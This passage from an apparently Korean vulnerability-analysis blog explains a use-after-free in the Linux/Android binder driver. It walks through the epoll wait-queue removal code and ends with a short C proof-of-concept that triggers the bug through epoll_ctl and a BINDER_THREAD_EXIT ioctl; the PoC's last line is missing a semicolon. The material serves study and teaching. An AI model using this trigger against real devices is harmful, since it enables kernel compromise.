 
`ep_remove_wait_queue()` 함수는 `remove_wait_queue()` 함수를 호출하고 인자로 `pwq->wait`을 넘겨준다. 

이때 만약 전에 binder에 `epoll_ctl()` 함수로 `EPOLL_CTL_ADD` 을 요청했다면 `binder_thread`의 `wait` 피트가 인자로 넘어갈 것이다. 

+ kernel/sched/wait.c

```c
void remove_wait_queue(struct wait_queue_head *wq_head, struct wait_queue_entry *wq_entry)
{
	unsigned long flags;

	spin_lock_irqsave(&wq_head->lock, flags);
	__remove_wait_queue(wq_head, wq_entry);
	spin_unlock_irqrestore(&wq_head->lock, flags);
}
EXPORT_SYMBOL(remove_wait_queue);

```

+ include/linux/wait.h

```c
static inline void
__remove_wait_queue(struct wait_queue_head *wq_head, struct wait_queue_entry *wq_entry)
{
	list_del(&wq_entry->entry);
}
```

그리고 `remove_wait_queue()`는 `list_del()` 함수를 통해 `wait` 필드를 list_del 한다. 

근데 만약 `epoll_ctl` 로 `EPOLL_CTL_DEL` 을 요청하기 이전에 binder 에 ioctl 로 `BINDER_THREAD_EXIT` 명령을 줘 `binder_thread`를 free 한다면, 생성된 dangling chunk 에 접근하게 되어 UAF 를 트리거 할 수 있게 되는것이다!

그럼 이 코드를 실제로 트리거 해보자.

```c

#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <stdio.h>


#define BINDER_THREAD_EXIT 0x40046208

int main() {
    int fd, epfd;
    struct epoll_event event = {.events = EPOLLIN};

    fd = open("/dev/binder", O_RDONLY);
    epfd = epoll_create(1000);
    epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);
    ioctl(fd, BINDER_THREAD_EXIT, NULL);
    epoll_ctl(epfd, EPOLL_CTL_DEL, fd, &event)
}

```
